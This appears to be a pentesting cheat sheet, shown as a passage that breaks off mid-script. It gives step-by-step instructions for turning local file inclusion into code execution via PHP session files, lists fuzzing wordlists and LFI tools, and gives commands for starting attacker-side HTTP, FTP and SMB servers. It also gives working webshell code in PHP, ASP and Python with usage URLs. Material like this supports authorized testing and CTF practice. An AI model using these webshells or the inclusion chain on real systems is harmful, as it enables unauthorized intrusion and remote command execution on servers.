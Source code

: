 Session data is stored at:

 - `/var/lib/php/sessions/sess_[SESSIONID]`
 - `C:\Windows\Temp\sess_[SESSIONID]`

 1. Examine the session data by including the file.
 2. Determine if any value in those file can be controlled
 3. Adding a webshell into that value (e.g. `<?php system($_GET["c"]); ?>`)
 4. Including the session file and running the webshell

**TIPPS**

 - Don't forget to scan for unused parameters - e.g. with  
   `/usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt`
 - Useful wordlist for fuzzing can be found in `/usr/share/wordlists/SecLists/Fuzzing/LFI/`

**TOOLS**

 - https://github.com/mzfr/liffy
 - https://github.com/D35m0nd142/LFISuite
 - https://github.com/OsandaMalith/LFiFreak


## Quick & easy servers

 - `sudo python3 -m http.server 80` (start webserver on port 80)
 - `sudo php -S 0.0.0.0:80` (start webserver on port 80)
 - `sudo python -m pyftpdlib -p 21` (start ftp server on port 21)
 - `sudo impacket-smbserver -smb2support share $(pwd)` (start SMB server and share the curent directroy)


## Webshells

**PHP**

```php
<?php echo system($_GET["c"]) ?>
```

Usage: `https://hacked.box/upload/shell.php?c=whoami`

**ASP**

```asp
<% eval request('c') %>
```

Usage: `https://hacked.box/upload/shell.asp?c=whoami`

**Python**

```python
#!/usr/bin/env python3
import cgi
import cgitb
import subprocess

cgitb.enable()

print("Content-Type: text/html")
print()

fs = cgi.FieldStorage()
try:
    cmd = fs['c'].value.strip()

    p = subprocess.Popen(cmd.split(" "), stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p.wait()
    out, err = p.communicate()
    out = "<pre>" + out.decode("UTF-8") + "<hr>" + err.decode("UTF-8") + "<pre>"
```